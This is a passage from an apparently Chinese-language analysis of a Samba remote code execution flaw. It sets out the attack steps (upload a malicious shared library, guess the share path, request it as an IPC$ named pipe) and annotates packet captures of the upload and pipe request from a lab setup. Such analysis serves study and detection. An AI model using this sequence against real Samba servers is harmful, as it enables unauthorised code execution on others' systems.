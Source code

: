 1.	向具有写权限的Samba服务器共享目录中上传恶意动态库，这里命名为evil.so;

2.	攻击者暴力猜解共享目录的绝对路径，同时以IPC$(命名管道)资源的方式请求步骤1上传的恶意动态库，使文件名变为服务器上的绝对路径” /path/to/evil.so”;

3.	服务器端误将文件资源 ” /path/to/evil.so” 当作IPC$(命名管道)资源加载运行，漏洞触发。

1）上传恶意动态库文件到服务器共享目录public

[![](https://p2.ssl.qhimg.com/t01211256f60c0f477d.png)](https://p2.ssl.qhimg.com/t01211256f60c0f477d.png)

第51个包Write AndX Request写操作请求数据，如下所示:



```
SMB (Server Message Block Protocol)
    SMB Header
        Server Component: SMB
        [Response in: 52]
        SMB Command: Write AndX (0x2f)
        Error Class: Success (0x00)
…
        Tree ID: 51295  (\192.168.119.155public) #访问靶机共享文件路径Tree ID
        Process ID: 51988
        User ID: 62509
        Multiplex ID: 27235
    Write AndX Request (0x2f)
        Word Count (WCT): 14
        AndXCommand: No further commands (0xff)
        Reserved: 00
        AndXOffset: 0
        FID: 0xef37 (rDfDKbgV.so) # 恶意动态库文件FID
…
        [File RW Length: 476] #写入文件大小
        Byte Count (BCC): 476
Data (476 bytes) #上传二进制数据
    Data: 7f454c4602010100000000000000000003003e0001000000...
[Length: 476]
```

2）以命名管道方式请求恶意动态库

[![](https://p1.ssl.qhimg.com/t01ea7a4ebfb83bd2b8.png)](https://p1.ssl.qhimg.com/t01ea7a4ebfb83bd2b8.png)

第59个包NT Create AndX Request 请求命名管道资源数据，如下所示：



```
SMB (Server Message Block Protocol)
    SMB Header
        Server Component: SMB
        SMB Command: NT Create AndX (0xa2)
        …
        Tree ID: 19967  (\192.168.119.155IPC$) #这里使用命名管道方式很重要
        Process ID: 51988
        User ID: 62509
        Multiplex ID: 27235
    NT Create AndX Request (0xa2)
        Word Count (WCT): 24
        AndXCommand: No further commands (0xff)
        Reserved: 00
        AndXOffset: 0
        Reserved: 00
        File Name Len: 23
        Create Flags: 0x00000016
        Root FID: 0x00000000
        …
```